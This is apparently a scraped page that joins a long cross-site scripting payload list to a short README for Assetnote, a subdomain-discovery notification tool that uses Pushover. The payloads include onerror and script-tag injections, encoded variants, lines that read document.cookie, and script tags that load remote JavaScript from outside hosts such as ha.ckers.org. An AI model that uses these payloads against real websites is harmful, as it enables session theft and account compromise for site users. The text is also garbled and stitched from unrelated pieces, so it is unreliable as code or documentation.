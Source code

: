 <img src=%00 onerror=alert(document.domain)
<script/src='

<img src=%00 onerror=alert(document.cookie)
<script/src='

<img src=%00 onerror=confirm(1337)
<script/src='

“>

‘; alert(2);
‘)alert(3);//


“>

‘; alert(4); ‘)alert(5);//

     
{font-family:'<iframe/onload=confirm(6)>'

<input/onmouseover="javaSCRIPT:confirm(7)"


<img/src=%00 onerror=this.onerror=confirm(8)

<img src=%00 onerror=alert(9)
<script/src='

http://www.google</a>&lt;script .com&gt;alert(document.location)&lt;/script</p> <p data-sourcepos="67:1-67:85">&lt;a href=[�]&quot;� onmouseover=prompt(1)//&quot;&gt;XYZ&lt;/a</p> <p data-sourcepos="69:1-69:46">&lt;img/src=@ onerror = prompt('11')</p> <p data-sourcepos="71:1-71:47">&lt;style/onload=prompt('XSS')</p> <script ^__^>alert(String.fromCharCode(49))</script ^__^ /***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/ X //style///>SPAN  http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(12) ">' OnMouseOver {Firefox & Opera}
^__^
X
{IE7}  http://ha.ckers.org/scriptlet.html> <IMG SRC=\"javascript:alert('XSS')\" <SCRIPT SRC=//ha.ckers.org/.js> <SCRIPT SRC=http://ha.ckers.org/xss.js?<B> <<SCRIPT>alert(\"XSS\");//<</SCRIPT> <SCRIPT/SRC=\"http://ha.ckers.org/xss.js\
"> http://ha.ckers.org/xss.js\"></SCRIPT> <IMG SRC=\" javascript:alert('XSS');\"> perl -e 'print \"<SCR\0IPT>alert(\\"XSS\\")</SCR\0IPT>\";' > out perl -e 'print \"<IMG SRC=java\0script:alert(\\"XSS\\")>\";' > out <IMG SRC=\"javascript:alert('XSS');\"> <IMG SRC=\"jav ascript:alert('XSS');\"> <IMG SRC=\"javascript:alert('XSS');\"> <IMG SRC=javascript:alert('XSS')> <IMG SRC=javascript:alert('XSS')> <IMG SRC=javascript:alert('XSS')> <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> <IMG \"\"\"><SCRIPT>alert(\"XSS\")</SCRIPT>\"> <IMG SRC=`javascript:alert(\"RSnake says, 'XSS'\")`> <IMG SRC=javascript:alert("XSS")> <IMG SRC=JaVaScRiPt:alert('XSS')> <IMG SRC=javascript:alert('XSS')> <IMG SRC=\"javascript:alert('XSS');\"> <SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT> '';!--\"<XSS>=&{()} ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//\\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>\">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT> ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->">'> '';!--"=&{()}      ">  < \";alert('XSS');// ¼script¾alert(¢XSS¢)¼/script¾
@im\port'\ja\vasc\ript:alert("XSS")';  exp/* a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e); PT SRC="http://ha.ckers.org/xss.js"> TESTHTML5FORMACTION crosssitespt   <img src=" foo=">"> "> foo=">"> ;13 +ADw-script+AD4-alert(document.location)+ADw-/script+AD4- %2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4- +ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi- %2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi- %253cscript%253ealert(document.cookie)%253c/script%253e “>alert(document.cookie) “> “>< foo ipt>alert(document.cookie)ipt> %22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E ‘; alert(document.cookie); var foo=’ foo\’; alert(document.cookie);//’;   ">


# Assetnote

![logo](http://i.imgur.com/nY80uWj.png)

Assetnote notifies you of assets that have been found through scraping passive data stores. By using [Pushover's](https://pushover.net) push notification API, as soon as a new subdomain is found for an asset, a push notification is sent to your mobile phone (iOS/Android) with the data found.

For public release, I have included an example `manager` script for assetnote. This is Threatcrowd's public yet passive DNS data store. Assetnote can be extended very easily by writing scripts that interact with the `assetnote.db` SQLite database. The more scripts that have been made to scrape data sources, the more success one will have with this tool.
